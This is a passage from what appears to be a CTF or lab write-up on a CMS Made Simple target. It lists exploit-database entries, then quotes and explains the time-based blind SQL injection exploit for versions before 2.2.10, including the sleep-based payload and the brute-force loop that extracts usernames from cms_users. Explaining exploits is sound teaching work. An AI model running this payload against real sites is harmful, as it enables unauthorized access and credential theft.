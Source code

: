 CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                                  | exploits/php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                             | exploits/php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload                    | exploits/php/webapps/46546.py
------------------------------------------------------------------------------------------------------------------------------------------
{% endhighlight %}

<p>Geez still a large field. Alright, let's ignore the modules and focus on only the core CMS Made Simple since we don't have any more hints as to what is actually installed. With our assumption that we are working with a version released in 2019 let's take a look at <code>CMS Made Simple < 2.2.10 - SQL Injection</code> a little more closely and see if it will be useful for us.</p>

<p>The exploit's functions all repeat a similar pattern for salt, username, email and password. Let's step through one of those and understand what is going on.</p>

{% highlight python %}
...
url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
...
def dump_username():
...
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True
{% endhighlight %}

<p>Simply put the exploit iterates through the list of characters, attempting to compare to the actual username. When the character matches the stored username the nested sleep function is also triggered - causing the request to take longer than an unsuccessful request by a measure of <code>TIME</code> defined in the code. <a href="http://www.sqlinjection.net/time-based/">sqlinject.net</a> explains this concept:</p>

